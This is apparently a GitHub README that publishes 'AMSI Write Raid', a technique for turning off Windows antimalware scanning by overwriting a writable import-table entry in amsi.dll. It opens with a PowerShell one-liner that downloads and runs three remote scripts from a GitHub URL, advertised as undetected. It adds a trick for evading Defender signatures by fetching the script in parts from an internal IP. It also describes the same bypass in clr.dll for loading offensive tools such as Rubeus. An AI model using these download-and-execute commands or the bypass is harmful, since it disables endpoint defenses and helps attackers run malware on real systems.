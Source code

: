 
## One liner Signature Bypass for the AMSI WRITE RAID BYPASS
0
✅ Undetected => More info in AvBypassTricks Folder


```powershell
IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/V-i-x-x/AMSI-BYPASS/refs/heads/main/AvBypassTricks/hello.ps1"); IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/V-i-x-x/AMSI-BYPASS/refs/heads/main/AvBypassTricks/hello2.ps1"); IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/V-i-x-x/AMSI-BYPASS/refs/heads/main/AvBypassTricks/hello3.ps1"); MagicBypass;
```

__AMSI WRITE RAID VULNERABILITY__

This is a vulnerability discovery for bypassing Antimalware Scan Interface (AMSI) and I will call it AMSI Write Raid, I mean why not?

Usually all the memory addresses pointing to the functions and data within the DLLs that the program depends on are inside the import address table (IAT) and they are marked as read only, so whenever you want to tamper with them, you have to use VirtualProtect api to mark the page as writable first.

And so EDR's will monitor the VirtualProtect API to see if the API call is doing something suspicious or not. 

But strangely, I discovered a writable entry that you can overwrite without the need of `VirtualProtect` API, that can bypass the whole AMSI process.

And because I am not using VirtualProtect API to change the memory protection, as it is already marked as Read/Write, it will likely bypass AV's and EDR's.

Note: Most AV's supports and uses the AMSI functionality developed by Microsoft, so bypassing AMSI => Bypasses not only defender but all of them.

Tested on win11 Build 22631 (Latest at the time of writing) and windows Preview.

**Update 14/05/2024**

I wanted to mention that this was not the only writable entry that you can overwrite to bypass AMSI with the same concept. I disovered that most of the highlighed entries (vulnerable_entries.png) in the call stack image below are as well vulnerable to the same vulnerability discussed in the paper / blog (writable_entries_part_1.png). The entries are not write protected, so overwriting any of the call pointers would bypass Amsi as well.

![Vulnerable Entries](vulnerable_entries.png)

![Writable Entries](writable_entries_part_1.png)

**Update 28/10/2024**

This POC is still working, but it is signatured by Defender after being published for some time.

A simple trick To bypass Signature => is to split the script to different files and call them 1 by 1  :)

Something like this:

```
IEX (New-Object System.Net.WebClient).DownloadString("http://192.168.26.141/part1.ps1");IEX (New-Object System.Net.WebClient).DownloadString("http://192.168.26.141/part2.ps1");IEX (New-Object System.Net.WebClient).DownloadString("http://192.168.26.141/part3.ps1");
```

### CLR.DLL Vulnerability ###
The same vulnerability exists in clr.dll (PW5) and coreclr.dll (PW7) which allows you to load c# assemblies into Powershell at runtime without being blocked by AMSI.

After using the POC.ps1, if you try to load rubeus for example, you will get blocked by AMSI, even though the error is a bit confusing but this is because of AMSI.

![CLR Error](clr_error.png)

You have to do the same analysis that I did, and your starting point is always amsi!AmsiScanBuffer.

![CLR Entries](clr_entries.png)

![CLR Writable Entry](clr_writable_entry.png)

The call __guard_dispatch_icall_fptr__ is added as part of a security feature that was created to combat memory corruption vulnerabilities. By placing tight restrictions on where an application can execute code from, it makes it much harder for exploits to execute arbitrary code through vulnerabilities such as buffer overflows. that security feature is called __Control Flow Guard__.

https://learn.microsoft.com/en-us/windows/win32/secbp/control-flow-guard

_CFG Call_ will take the value inside rax which is the location of _AmsiScanBuffer_ pointer and validate it using a set of bitmaps if that address is allowed to run or not and then call it (if allowed).

while __Control Flow Guard (CFG)__ is outside the scope of this blog, it will not concern us, as we are not changing the location of the pointer that is being called, so we will not be triggering CFG.

The Full Bypass:

![CLR Bypass POC](clr_poc.png)

I will not publish the POC for clr.dll, I will keep it as an exercise :)

